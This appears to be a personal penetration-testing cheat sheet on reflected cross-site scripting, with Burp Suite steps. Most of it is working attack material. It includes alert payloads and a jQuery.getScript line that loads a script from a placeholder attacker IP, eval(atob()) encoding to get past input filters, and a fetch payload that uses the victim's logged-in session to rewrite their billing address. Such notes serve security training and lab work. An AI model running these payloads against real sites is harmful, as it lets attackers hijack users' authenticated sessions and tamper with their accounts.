 # Reflected XSS
- Vulnerable where user input is sent via GET parameters
- may need to be URL encoded

### HTML Injection Test

```html
<h1>TEST</h1>
```


### JavaScript Injection Test

```javascript
<script>alert(0)</script>
```


### Exploiting With Burp Suite
1) submit the payload with intercept off.
```bash
<script>alert(0)</script>
```

2) Close the alert box, then go to the 'HTTP history' tab and locate the Request.

3) Verify payload was reflected directly in the content (Raw) in the Response.


## Burp Suite Javascript Injection

### View JavaScript libraries in use
- Target > Site Map
- verify one of the libraries uses "_jQuery.getScript()_"

##### test payload to verify it works
```xss.js
alert('It worked!');
```

##### Start listener
```python
python3 -m http.server 80
```

##### Craft the payload
```raw
jQuery.getScript('http://[ATTACKER_IP]/xss.js')
```

##### Encoding with base64

##### Make it readable
- atob()
	- javascript function to decode base64
- eval()
	- executes javascript
```raw
# using + because it blocks ;
'+eval(atob(`[B64STRING]`))+'

#or

# using btoa() to encode the whole requeset
'+btoa(eval(atob('[B64STRING]')))+'
```

##### Execute

##### Modifying Forms
- Use burp suite to grab a sample request after submitting changes to an input field
	- use repeater to remove session id information to see if its required

- sample post request
```raw
OST /card/stop/updateAddress.html HTTP/1.1
Host: cardz:8222
Content-Length: 161
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://site:8222
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: .html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: navigate-tinymce-scroll=%7B%7D; navigate-language=en; cookieconsent_status=dismiss; JSESSIONID=626462846266662D; user=DEFAULT_jim.janes@local.host
Connection: close

customerId=100&billingAddress=false&firstName=z&lastName=z&company=&address=z&city=z&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change+address
```

- sample request modification (xss.js)
```xss.js
# same-origin means use already logged in credentials (authenticated)
fetch('http://site:8222/card/stop/updateAddress.html',{
	method: 'POST',
	mode: 'same-origin',
	credentials: 'same-origin',
	headers: {
		'Content-Type':'application/x-www-form-urlencoded'
	},
body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
})
```

### Resolving Errors
- verify payload is formatted correctly

- error after alert?
	-  Click the link to view the issue
	- message: invalid characters found
	- attempt base64 encoding the entire response using btoa() 